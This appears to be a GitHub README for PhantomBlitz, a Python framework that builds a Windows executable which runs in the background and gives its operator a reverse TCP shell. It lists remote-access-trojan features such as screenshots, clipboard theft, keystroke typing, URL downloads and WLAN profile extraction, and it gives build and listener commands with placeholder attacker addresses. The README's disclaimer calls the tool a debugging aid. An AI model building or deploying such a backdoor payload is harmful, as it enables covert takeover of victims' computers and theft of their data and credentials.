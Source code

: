  # PhantomBlitz
![image](https://user-images.githubusercontent.com/111997815/235362152-3e1d20cc-549b-4cc1-8856-0383829760dd.png)

**PhantomBlitz is a Python-based framework that creates an executable file with various parameters. It allows users to perform a reverse TCP connection and execute cmd commands.**
## Features

- [x] Reverse TCP connection
- [x] Execute cmd commands
- [x] Collect OS info
- [x] Set clipboard text
- [x] Get clipboard text
- [x] Take screenshot
- [x] Start file server
- [x] Analyze LAN traffic
- [x] Type text
- [x] Download URL
- [x] Open link
- [x] Generate WLAN profile
## Requirements
> Same platform as the client
## Usage

PhantomBlazer can be executed with the following parameters:
``` 
    --mode/-m: Mode: accepts > build or listen
    --lhost/-lh: The local host IP address
    --lport/-lp: The local port number
    --output/-o: The output file name
```
> Example: ``` python3 phantomblazer.py -m build --lh <ip.address> --lp <port> --output<application.name>.exe```
> Before payload execution on client: ``` python3 phantomblazer.py -m listen --lh <ip.address> -lp <port> ```

### Inbuilt ommands can be executed using the following syntax:
```
    collect-os-info
    set clipboard <text>
    get clipboard
    take screenshot
    start file server
    analyze lan traffic
    type <text>
    download <url>
    open link <link>
    generate wlan profile *
    generate wlan profile <name>
```
## DISCLAIMER:
This tool is intended for legal and ethical use only. The creator of this tool is not responsible for any illegal or unethical use of this tool.

The tool creates a .exe file which runs as a background and creates a reverse TCP connection, allowing for remote command execution. This tool is intended for debugging purposes and should not be used to gain unauthorized access to systems.

Please use this tool at your own risk and with the appropriate permissions from the system owners. Any actions taken with this tool are the sole responsibility of the user.

By using this tool, you agree to the <a href = "https://github.com/devsdenepal/PhantomBlitz/blob/main/terms-and-conditions.md">```terms and conditions```</a> outlined above and acknowledge that any misuse of this tool is strictly prohibited.
